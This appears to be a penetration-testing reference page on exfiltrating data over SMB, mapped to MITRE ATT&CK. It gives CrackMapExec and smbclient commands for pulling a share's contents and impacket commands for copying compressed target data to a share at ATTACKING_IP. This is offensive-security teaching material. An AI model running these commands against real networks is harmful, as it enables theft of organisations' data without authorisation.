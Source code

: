 ```yaml
---
description: MITRE ATT&CK™ - Exfiltration - Tactic TA0010
---
```


# Over SMB

## Theory

SMB (Server Message Block) exfiltration refers to the unauthorized extraction or transfer of data from a compromised network or system using SMB protocols. Attackers can leverage SMB to transfer sensitive or valuable information from an organization's network to an external location.

## Practice

### Exfiltrate Share's Content

{% tabs %}
{% tab title="CrackMapExec" %}
Tools like [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) can be used to recursively download a SMB share's content.

```bash
crackmapexec smb $IP -u $USERNAME -p $PASSWORD -M spider_plus -o DOWNLOAD_FLAG=True
```

The previous command generates a json file with the list of accessible files in shares. We may use jq to parse this json output.

```bash
cat 10.10.10.111.json | jq '. | map_values(keys)'
```


{% endtab %}

{% tab title="smbclient" %}
Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) can be used to recursively download a SMB share's content.

```bash
# In an smbclient interactive session
recurse ON
prompt OFF
mget *
```
{% endtab %}
{% endtabs %}

### Exfiltrate Data

{% tabs %}
{% tab title="UNIX-like" %}
To exfiltrate the data from the target, we can compress the data and transfer it via an SMB shared folder hosted on our attacking host.

First, start a SMB server on your attacking host using [smbserver.py](https://github.com/fortra/impacket/blob/master/examples/smbserver.py) from impacket

```bash
smbserver.py -smb2support /local/share/path ShareName -user veresk -password psswd
```

On the target, compress target data

```powershell
Compress-Archive -Path /path/to/compress -DestinationPath exfi.zip
```

From the target, mount the share folder and copy files to it

```powershell
# Mount the smb share
net use Z: \\ATTACKING_IP\ShareName psswd /USER:veresk

# Exfiltrate ZIP file
copy exfi.zip Z:\
```
{% endtab %}
{% endtabs %}
